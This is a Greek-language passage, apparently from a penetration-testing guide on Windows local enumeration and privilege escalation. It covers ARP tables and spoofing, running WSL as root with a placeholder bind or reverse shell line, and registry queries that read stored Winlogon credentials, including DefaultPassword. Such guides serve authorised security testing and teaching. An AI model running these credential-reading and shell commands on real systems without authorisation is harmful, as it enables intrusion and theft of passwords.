 Ο πίνακας ARP περιέχει καταχωρήσεις που αντιστοιχούν μια διεύθυνση IP με μια διεύθυνση MAC. Κάθε καταχώρηση περιλαμβάνει τη διεύθυνση IP και τη διεύθυνση MAC του αντίστοιχου συσκευής. Όταν ένας υπολογιστής χρειάζεται να στείλει ένα πακέτο σε μια συγκεκριμένη διεύθυνση IP, ελέγχει πρώτα τον πίνακα ARP για να βρει την αντίστοιχη διεύθυνση MAC. Αν η καταχώρηση υπάρχει στον πίνακα ARP, τότε ο υπολογιστής μπορεί να στείλει το πακέτο στη σωστή συσκευή. Αν η καταχώρηση δεν υπάρχει, τότε ο υπολογιστής πρέπει να κάνει ένα ARP request για να ανακαλύψει τη διεύθυνση MAC της συσκευής.

Ο πίνακας ARP μπορεί να χρησιμοποιηθεί και από επιτιθέμενους για να εκμεταλλευτούν ευπάθειες στο σύστημα. Με την αλλοίωση του πίνακα ARP, ένας επιτιθέμενος μπορεί να παραπλανήσει τον υπολογιστή και να ανακατευθύνει την κυκλοφορία των πακέτων. Αυτό μπορεί να οδηγήσει σε επιθέσεις όπως το ARP spoofing και το man-in-the-middle. Για να προστατευτείτε από αυτούς τους τύπους επιθέσεων, μπορείτε να εφαρμόσετε μέτρα όπως τον έλεγχο του πίνακα ARP, τη χρήση ασφαλούς ARP και την ενεργοποίηση του ARP inspection.
```
arp -A
Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,L
```
### Κανόνες Τείχους Προστασίας

[**Ελέγξτε αυτήν τη σελίδα για εντολές σχετικές με το Τείχος Προστασίας**](../basic-cmd-for-pentesters.md#firewall) **(λίστα κανόνων, δημιουργία κανόνων, απενεργοποίηση, ενεργοποίηση...)**

Περισσότερες [εντολές για απαρίθμηση δικτύου εδώ](../basic-cmd-for-pentesters.md#network)

### Υποσύστημα Windows για Linux (wsl)
```bash
C:\Windows\System32\bash.exe
C:\Windows\System32\wsl.exe
```
Το δυαδικό αρχείο `bash.exe` μπορεί επίσης να βρεθεί στο `C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe`

Εάν αποκτήσετε δικαιώματα ρίζας, μπορείτε να ακούτε σε οποιαδήποτε θύρα (την πρώτη φορά που χρησιμοποιείτε το `nc.exe` για να ακούσετε σε μια θύρα, θα ζητηθεί μέσω γραφικού περιβάλλοντος εάν το `nc` πρέπει να επιτραπεί από το τείχος προστασίας).
```bash
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```
Για να ξεκινήσετε εύκολα το bash ως root, μπορείτε να δοκιμάσετε `--default-user root`

Μπορείτε να εξερευνήσετε το σύστημα αρχείων του `WSL` στον φάκελο `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\`

## Διαπιστευτήρια Windows

### Διαπιστευτήρια Winlogon
```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr /i "DefaultDomainName DefaultUserName DefaultPassword AltDefaultDomainName AltDefaultUserName AltDefaultPassword LastUsedUsername"

#Other way
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultDomainName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultPassword
```
### Διαχειριστής διαπιστευτηρίων / Θησαυροφυλάκιο των Windows
